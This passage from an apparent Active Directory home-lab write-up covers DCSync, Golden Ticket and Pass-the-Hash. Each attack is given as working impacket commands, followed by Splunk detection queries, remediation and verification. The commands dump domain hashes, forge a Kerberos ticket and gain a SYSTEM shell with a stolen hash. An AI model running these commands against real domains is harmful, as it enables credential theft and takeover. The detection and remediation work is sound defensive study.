  


### Attack
```bash
impacket-secretsdump -just-dc corp.local/karim:'Passw0rd!'@192.168.154.10
```
- `02-impacket-secretsdump-dcsync-dump-all-hashes.png` — dumped **every** account hash in the domain in one shot, including `krbtgt` (which I reuse in Part 6 for the Golden Ticket)
  


### Detection
```spl
index=ad_lab EventCode=4662 "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" Account_Name!="*$"
| stats dc(Account_Name) as accounts
```
- `04-splunk-4662-stats-by-account-and-guid.png` — grouped by `Account_Name` + GUID. `karim` showed up with **5,188** matching events for one GUID and 2,594 for the other — a huge, unmistakable volume compared to normal traffic.
  


**Problem #1:** Splunk's auto-extracted `Properties` field on event 4662 only grabs the first line of that multi-line field ("Control Access"). The actual replication-right GUID sits on the *next* raw line, which Splunk doesn't parse into a field by default. My first attempt at this query filtered on `Properties="*<guid>*"` and got **zero results** even though I could see the GUID right there in the raw event text. Fixed it by matching the raw event text directly instead of a structured field:
```spl
index=ad_lab EventCode=4662 "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2"
```

### Investigating like a real analyst — "who did this, and when was the permission granted?"
I reviewed the ACL directly to confirm what I already suspected:
```powershell
Get-Acl "AD:\$((Get-ADDomain).DistinguishedName)"
```
- `05-get-acl-review-karim-dcsync-rights.png` — confirmed `CORP\karim` holds `ExtendedRight / Allow` twice (once per GUID)
  


I then tried two different ways to find out *who granted karim this right in the first place* — not just that he used it:
- `06-splunk-sysmon-setacl-commandline-no-results.png` — searched Sysmon process-creation logs for any `Set-Acl`/`AddAccessRule` command line. **Zero results.** (Makes sense — I ran that PowerShell interactively, and depending on how command-line logging is configured, PowerShell `ScriptBlock`/pipeline commands don't always show up the same way a literal `cmd.exe` invocation would.)
  

- Searched for **Event 5136** ("A directory service object was modified") — the event that's actually supposed to log ACL changes to AD objects. **Also zero results.**

**This is the finding I'm most proud of in the whole lab, because it's a real gap, not a mistake on my part:** Windows has two separate audit subcategories that look similar but log completely different things:

| Subcategory | What it logs | Event ID |
|---|---|---|
| Directory Service **Access** | someone *used* a permission | 4662 |
| Directory Service **Changes** | someone *changed* a permission/attribute | 5136 |

My lab (like most real environments, by default) only had the first one enabled. That means I could prove `karim` *used* DCSync rights, but I had **no way at all** to retroactively prove who granted those rights or when — the actual root cause of the incident was invisible. That's a genuinely important lesson: catching the attack is not the same as being able to do root-cause attribution, and most orgs are only logging half of what they'd need for a real DCSync investigation.

### Fixing the visibility gap, then fixing the vulnerability
First, I turned on the missing auditing and proved it actually works before touching anything real:
```powershell
auditpol /set /subcategory:"Directory Service Changes" /success:enable /failure:enable
$auditRule = New-Object System.DirectoryServices.ActiveDirectoryAuditRule([System.Security.Principal.NTAccount]"Everyone","WriteDacl,GenericAll","Success")
$acl.AddAuditRule($auditRule)
Set-Acl "AD:\$DN" $acl
```
- `07-enable-directory-service-changes-auditing.png`
  

- `08-add-test-ace-verify-5136-logging.png` — added a harmless throwaway test ACE for `karim` (`ReadProperty`) just to prove 5136 now fires
  

- `09-splunk-5136-test-ace-logged.png` — it worked, confirmed 2 events showed up
  

- `10-event-5136-raw-directory-service-object-modified.png` — the raw event, showing `Account Name: Administrator` (me) as the one who made the change, and the full SDDL string of the new ACL
  


Only then did I remove the actual DCSync rights from `karim`:
```powershell
$rulesToRemove = $acl.Access | Where-Object { $_.IdentityReference -like "*karim*" -and $replicationGUIDs -contains $_.ObjectType.ToString() }
foreach ($rule in $rulesToRemove) { $acl.RemoveAccessRule($rule) | Out-Null }
Set-Acl "AD:\$DN" $acl
```
- `11-remove-karim-dcsync-replication-aces.png` — "Removed 2 replication ACE(s) from karim"
  


### Verifying the fix
```bash
impacket-secretsdump -just-dc corp.local/karim:'Passw0rd!'@192.168.154.10
# [-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN
```
- `12-verify-fix-secretsdump-fails-bad-dn.png` — attack fails cleanly, exactly as it should
  

- `13-splunk-5136-six-events-after-removal.png` — and now I have a full, logged paper trail: 6 total 5136 events covering both the test ACE and the real grant/revoke, something I had **zero** visibility into before enabling this subcategory
  


---

## Part 6 — Golden Ticket

### Attack
Using the `krbtgt` NT hash pulled via DCSync (Part 5):
```bash
impacket-ticketer -nthash <krbtgt_hash> -domain-sid <domain-sid> -domain corp.local Administrator
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.local/Administrator@DC01.corp.local
```
- `screenshots/06-golden-ticket-attack-and-remediation/01-impacket-ticketer-forge-golden-ticket-administrator.png`
  

- `02-golden-ticket-practice-ghostadmin-account.png` — before forging a ticket for the real `Administrator` account, I practiced the whole process first against a throwaway fake username (`ghostadmin`) to make sure I had the `ticketer` syntax right and understood what each flag does, without risking breaking anything on the real privileged account. Worth keeping as a note: practicing destructive-ish commands against a disposable target first is a good habit.
  


This got me a fully valid, forged Kerberos TGT for `Administrator`, with **no password and no real logon ever happening**.

### Detection
The core idea: a forged TGS (4769) has no legitimate TGT (4768) behind it, because it was never actually issued by the KDC.
```spl
index=ad_lab (EventCode=4768 OR EventCode=4769)
| eval Account_Name=lower(replace(Account_Name, "@CORP\.LOCAL", ""))
| search Account_Name!="*$"
| bucket _time span=1h
| stats count(eval(EventCode=4768)) as AS_REQ_count, count(eval(EventCode=4769)) as TGS_count by Account_Name, _time
| where AS_REQ_count=0 AND TGS_count>0
```
- `03-splunk-golden-ticket-detection-raw-counts.png`
  

- `04-splunk-golden-ticket-filtered-administrator-only.png` — filtered view, `Administrator`, `AS_REQ_count=0`, `TGS_count=9`
  


**Problem I hit:** my first version of this query didn't use `bucket _time span=1h`, and it returned nothing — I got confused because I knew the attack had worked. Turned out `Administrator` has completely legitimate AS_REQ activity *somewhere else* in the full 30-day search window (normal logons for lab admin tasks), which was masking the gap when I compared totals over the whole window. Once I bucketed the comparison hourly, the exact hour of the attack showed the clean `AS_REQ_count=0, TGS_count=9` signature. **Lesson:** "no matching TGT" has to be measured in the same narrow time window as the TGS usage, not as a lifetime total.

### Remediation
```powershell
Set-ADAccountPassword -Identity krbtgt -Reset -NewPassword ...
```
- `05-remediation-krbtgt-password-double-reset.png` — note this screenshot shows **two** reset commands run back to back, not a mistake
  


### Verifying the fix — and why one reset wasn't enough
After the **first** reset, I tried the old forged ticket again just to see what would happen:
```bash
impacket-psexec -k -no-pass corp.local/Administrator@DC01.corp.local
# ... still worked!
```
That genuinely threw me off at first. The reason: AD retains the **previous** (`N-1`) `krbtgt` key for a while, specifically so in-flight Kerberos replication between DCs doesn't break during a password change. That same safety mechanism means a single reset does **not** invalidate a Golden Ticket forged with the old key.

I reset it a **second** time, consecutively:
- `06-verify-fix-psexec-fails-bad-integrity.png` — `KRB_AP_ERR_BAD_INTEGRITY` — now the ticket is actually dead.
  


**Lesson:** any real Golden Ticket remediation procedure needs to say "reset `krbtgt` twice, back to back" — a single reset is a common mistake that leaves the environment still compromised while looking fixed.

---

## Part 7 — Pass-the-Hash

### Attack
Using `Administrator`'s NTLM hash (also pulled during the DCSync dump in Part 5):
```bash
impacket-psexec -hashes <LM>:<NTLM> Administrator@192.168.154.10
```
- `screenshots/07-pass-the-hash-attack-and-remediation/01-impacket-psexec-pass-the-hash-administrator.png` — full SYSTEM shell on DC01, no password needed, no Kerberos involved at all — this is NTLM authentication where the hash itself is the credential.
  


### Detection
```spl
index=ad_lab EventCode=4624 Logon_Type=3 Authentication_Package=NTLM
| search Account_Name!="*$"
| table _time, Account_Name, Source_Network_Address, Workstation_Name
```
- `02-splunk-pth-ntlm-logon-detection.png` — `Administrator`, `Source_Network_Address=192.168.154.129` (my Kali box), straight from the event, no correlation gymnastics needed (unlike the Kerberos attacks above, 4624 just hands you the source IP directly).
  


### Remediation & verifying the fix
```powershell
Set-ADAccountPassword -Identity Administrator -Reset -NewPassword ...
```
- `03-remediation-administrator-password-reset.png`
  


Re-ran the exact same `psexec -hashes` command with the old hash:
- `04-verify-fix-psexec-fails-logon-failure.png` — `STATUS_LOGON_FAILURE`, immediately, after **one single reset**.
  


**Important distinction I made myself write down so I wouldn't mix it up later:** unlike `krbtgt` (Part 6), an ordinary account's NTLM hash does **not** need two resets — there's no N-1 retention mechanism protecting ordinary account passwords. One reset is enough to kill Pass-the-Hash with that hash. I almost assumed it would behave like `krbtgt` and need a second reset too — glad I tested it instead of assuming.

---

## Part 8 — Building the Splunk Dashboard

I wanted one single dashboard covering all 6 detections instead of re-running six separate searches every time. This took more debugging than I expected.

- `screenshots/08-splunk-dashboard/01-dashboard-overview-all-6-detections-v1.png`
  

- `02-dashboard-detail-panels-and-timeline-v1.png`
  


**Problem #1 — Kerberoasting panel:** first version grouped the wrong way (see the Part 2 "field confusion" note above) — fixed by splitting it into "who's requesting" vs "who's targeted" panels.

**Problem #2 — Golden Ticket panel showed "No results found":** this was the exact same hourly-bucketing issue described in Part 6 — the dashboard's default 30-day time range was averaging out the gap. Fixed the panel query the same way (`bucket _time span=1h`).

Final working version, all 6 panels showing correct non-zero live data:
- `03-dashboard-final-split-kerberoasting-panels-top.png`
  

- `04-dashboard-final-detail-panels-and-timeline.png`
  

- `05-dashboard-final-confirmed-working.png` — Kerberoasting=1 (karim, 51/51), AS-REP=178, DCSync=2 (karim 5188, Administrator 2), Golden Ticket=1 (Administrator), Pass-the-Hash=22
